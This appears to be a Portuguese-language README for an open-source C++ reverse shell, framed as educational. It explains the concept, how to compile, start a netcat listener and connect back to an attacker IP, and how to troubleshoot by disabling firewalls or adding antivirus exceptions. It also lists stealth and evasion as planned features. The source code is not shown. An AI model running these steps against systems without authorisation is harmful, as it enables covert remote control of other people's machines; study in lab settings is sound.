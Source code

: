 # 🐚 CPP Reverse Shell

<div align="center">

[![MIT License](https://img.shields.io/badge/license-MIT-green.svg)](LICENSE)
[![GitHub Issues](https://img.shields.io/github/issues/ZXyoukai/CPP-reverse-shell.svg)](https://github.com/ZXyoukai/CPP-reverse-shell/issues)
[![C++](https://img.shields.io/badge/language-C++-blue.svg)](https://isocpp.org/)
[![Platform](https://img.shields.io/badge/platform-Linux%20%7C%20Windows-lightgrey.svg)](#prerequisites)

**✨ Uma implementação educacional de reverse shell em C++**

*Explore, aprenda e contribua com responsabilidade! 🎓*

</div>

---

## 📋 Índice

<details>
<summary>🔍 Clique para expandir o índice</summary>

- [🚀 Como funciona?](#-como-funciona)
- [📋 Pré-requisitos](#-pré-requisitos)
- [🛠️ Instalação e Uso](#️-instalação-e-uso)
  - [Setup Rápido](#setup-rápido)
  - [Passo a Passo Detalhado](#passo-a-passo-detalhado)
- [💡 Exemplos Práticos](#-exemplos-práticos)
- [❓ FAQ](#-faq)
- [🔧 Troubleshooting](#-troubleshooting)
- [🤝 Como Contribuir](#-como-contribuir)
- [🔍 Referências](#-referências)
- [📜 Licença](#-licença)

</details>

---

> ⚠️ **IMPORTANTE**: Este projeto é destinado exclusivamente para fins educacionais e de pesquisa em ambientes controlados. 
> O uso inadequado ou malicioso deste código pode ser ilegal e antiético. Use com responsabilidade!

---

## 🚀 Como funciona?

<details>
<summary>📖 Entenda o conceito de Reverse Shell</summary>

Uma **reverse shell** inverte a conexão tradicional cliente-servidor. Em vez de o atacante conectar-se diretamente à máquina alvo, a máquina alvo conecta-se de volta ao atacante.

### 🔄 Fluxo de Funcionamento

```mermaid
sequenceDiagram
    participant A as 🎯 Atacante
    participant V as 💻 Máquina Alvo
    
    A->>A: 1. Inicia listener (nc -lvnp 4444)
    V->>V: 2. Executa reverse shell
    V->>A: 3. Conecta-se ao atacante
    A->>V: 4. Envia comandos
    V->>A: 5. Retorna resultados
```

### ✨ Vantagens da Reverse Shell
- ✅ Contorna firewalls que bloqueiam conexões de entrada
- ✅ Útil quando a máquina alvo está atrás de NAT
- ✅ Permite controle remoto discreto

</details>

## 📋 Pré-requisitos

<details>
<summary>🖥️ Requisitos do Sistema</summary>

### Para Linux 🐧
- [ ] Sistema operacional Linux (Ubuntu, Debian, CentOS, etc.)
- [ ] GCC/G++ 7.0 ou superior
- [ ] Make (opcional)
- [ ] Netcat (`nc`) para testes

### Para Windows 🪟  
- [ ] Windows 10 ou superior
- [ ] MinGW-w64 ou Visual Studio
- [ ] WSL (recomendado para testes)

### Verificação Rápida
```bash
# Verifique a versão do compilador
g++ --version

# Verifique se o netcat está disponível
nc -h
```

</details>

---

## 🛠️ Instalação e Uso

### Setup Rápido

<details>
<summary>⚡ Para usuários experientes</summary>

```bash
# Clone, compile e execute em 3 comandos
git clone https://github.com/ZXyoukai/CPP-reverse-shell.git && cd CPP-reverse-shell
g++ -o reverse_shell reverse_shell.cpp
# Terminal 1: nc -lvnp 4444
# Terminal 2: ./reverse_shell <IP> 4444
```

</details>

### Passo a Passo Detalhado

<details open>
<summary>📚 Guia completo para iniciantes</summary>

#### 1️⃣ Clone o Repositório
```bash
git clone https://github.com/ZXyoukai/CPP-reverse-shell.git
cd CPP-reverse-shell
```

#### 2️⃣ Compile o Projeto
```bash
# Compilação básica
g++ -o reverse_shell reverse_shell.cpp

# Ou com flags de otimização (recomendado)
g++ -Wall -Wextra -O2 -o reverse_shell reverse_shell.cpp
```

#### 3️⃣ Configurar o Listener
**Em um terminal separado ou máquina diferente:**
```bash
# Inicia o listener na porta 4444
nc -lvnp 4444

# Para Windows (usando ncat):
ncat -lvnp 4444
```

#### 4️⃣ Executar a Reverse Shell
```bash
./reverse_shell <IP_DO_LISTENER> <PORTA>
```

**Exemplos:**
```bash
# Conectar a localhost
./reverse_shell 127.0.0.1 4444

# Conectar a IP remoto
./reverse_shell 192.168.1.100 4444

# Usar porta personalizada
./reverse_shell 192.168.1.100 8888
```

</details>

## 💡 Exemplos Práticos

<details>
<summary>🧪 Cenários de Teste</summary>

### 🏠 Teste Local (Same Machine)
```bash
# Terminal 1 - Listener
nc -lvnp 4444

# Terminal 2 - Reverse Shell
./reverse_shell 127.0.0.1 4444
```

### 🌐 Teste em Rede Local
```bash
# Máquina A (IP: 192.168.1.100) - Listener
nc -lvnp 4444

# Máquina B - Reverse Shell  
./reverse_shell 192.168.1.100 4444
```

### 🔧 Teste com Portas Diferentes
```bash
# Use portas altas não privilegiadas
nc -lvnp 8080
./reverse_shell <IP> 8080
```

</details>

---

## ❓ FAQ

<details>
<summary>🤔 Perguntas Frequentes</summary>

### **P: O que fazer se a conexão falhar?**
**R:** Verifique:
- [ ] Se o listener está ativo antes de executar a reverse shell
- [ ] Se o IP e porta estão corretos
- [ ] Se não há firewall bloqueando a conexão
- [ ] Se a porta não está sendo usada por outro processo

### **P: Funciona no Windows?**
**R:** Sim! Você pode:
- Compilar com MinGW: `g++ -o reverse_shell.exe reverse_shell.cpp`
- Usar WSL para ambiente Linux
- Adaptar o código para Winsock (contribuições são bem-vindas!)

### **P: É detectado por antivírus?**
**R:** Sim, é normal. Reverse shells são detectadas como potenciais ameaças. Para fins educacionais:
- Execute apenas em ambientes controlados
- Adicione exceção no antivírus temporariamente
- Use máquinas virtuais isoladas

### **P: Posso usar outras portas?**
**R:** Claro! Evite portas bem conhecidas (80, 443, 22) e use portas altas (>1024) que não requerem privilégios.

</details>

---

## 🔧 Troubleshooting

<details>
<summary>🩺 Soluções para Problemas Comuns</summary>

### ❌ Erro: "Connection refused"
```bash
# Possíveis causas e soluções:
1. Listener não está rodando → Verifique: netstat -ln | grep 4444
2. IP incorreto → Verifique: ip addr show
3. Firewall bloqueando → Temporariamente: sudo ufw disable
```

### ❌ Erro: "Permission denied"
```bash
# Se o executável não tem permissão
chmod +x reverse_shell

# Se a porta requer privilégios (< 1024)
sudo ./reverse_shell <IP> <PORTA>
# Ou use porta > 1024
```

### ❌ Erro de Compilação
```bash
# Instalar dependências no Ubuntu/Debian
sudo apt update && sudo apt install build-essential

# No CentOS/RHEL
sudo yum groupinstall "Development Tools"
```

### 🔍 Debug Mode
```bash
# Compile com símbolos de debug
g++ -g -DDEBUG -o reverse_shell reverse_shell.cpp

# Execute com strace (Linux)
strace ./reverse_shell <IP> <PORTA>
```

</details>

---

## 🤝 Como Contribuir

<details>
<summary>💪 Junte-se ao projeto!</summary>

### 🌟 Formas de Contribuir
- [ ] 🐛 Reporte bugs via [Issues](https://github.com/ZXyoukai/CPP-reverse-shell/issues)
- [ ] 💡 Sugira melhorias ou novas funcionalidades  
- [ ] 📝 Melhore a documentação
- [ ] 🔧 Envie patches e correções
- [ ] 🌍 Traduza para outros idiomas
- [ ] ⭐ Dê uma estrela no projeto!

### 🚀 Processo de Contribuição
1. **Fork** o projeto
2. **Clone** seu fork: `git clone https://github.com/SEU_USERNAME/CPP-reverse-shell.git`
3. **Crie** uma branch: `git checkout -b minha-funcionalidade`
4. **Faça** suas alterações
5. **Teste** as mudanças
6. **Commit**: `git commit -m "feat: adiciona nova funcionalidade"`
7. **Push**: `git push origin minha-funcionalidade`
8. **Abra** um Pull Request

### 💡 Ideias para Contribuições
- [ ] Suporte para Windows nativo (Winsock)
- [ ] Criptografia na comunicação
- [ ] Interface gráfica simples
- [ ] Modo stealth/evasão
- [ ] Documentação em inglês
- [ ] Dockerfile para testes

</details>

---

## 🔍 Referências

<details>
<summary>📚 Materiais de Estudo e Referência</summary>

### 📖 Documentação Técnica
- [📋 Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) - Guia completo de reverse shells
- [🔌 C++ Socket Programming](https://www.cplusplus.com/reference/sys/socket/) - Referência de sockets em C++
- [🐧 Linux Network Programming](http://man7.org/linux/man-pages/man2/socket.2.html) - Manual de sockets no Linux

### 🎓 Recursos Educacionais
- [🛡️ Ethical Hacking Course](https://www.coursera.org/specializations/ethical-hacking) - Curso de hacking ético
- [💻 C++ Network Programming](https://www.boost.org/doc/libs/1_81_0/doc/html/boost_asio.html) - Boost.Asio para networking
- [🔒 Cybersecurity Fundamentals](https://www.sans.org/white-papers/) - SANS White Papers

### 🛠️ Ferramentas Relacionadas
- [🌐 Netcat](http://netcat.sourceforge.net/) - Swiss Army Knife do networking
- [🔍 Wireshark](https://www.wireshark.org/) - Análise de tráfego de rede
- [🧪 Metasploit](https://www.metasploit.com/) - Framework de testes de penetração

</details>

---

## 📜 Licença

<div align="center">

**MIT License** 📄

Distribuído sob a licença MIT. Consulte o arquivo `LICENSE` para mais detalhes.

*Copyright (c) 2024 ZXyoukai*

---

<details>
<summary>📞 Contato e Suporte</summary>

### 💬 Precisa de Ajuda?
- 🐛 **Bugs**: [Abra uma issue](https://github.com/ZXyoukai/CPP-reverse-shell/issues/new?template=bug_report.md)
- 💡 **Sugestões**: [Feature request](https://github.com/ZXyoukai/CPP-reverse-shell/issues/new?template=feature_request.md)
- ❓ **Dúvidas**: [Discussions](https://github.com/ZXyoukai/CPP-reverse-shell/discussions)

### 🌟 Gostou do Projeto?
Se este projeto foi útil para você, considere:
- ⭐ Dar uma estrela no GitHub
- 🐦 Compartilhar nas redes sociais
- ☕ [Buy me a coffee](https://www.buymeacoffee.com/zxyoukai) (se disponível)

</details>

</div>

---

<div align="center">

**⚠️ LEMBRETE IMPORTANTE ⚠️**

*Este projeto é destinado exclusivamente para educação e pesquisa em cibersegurança.*  
*O uso responsável e ético é fundamental. Sempre obtenha permissão adequada antes de testar.*

**📚 Aprenda • 🔒 Proteja • 🤝 Compartilhe**

</div>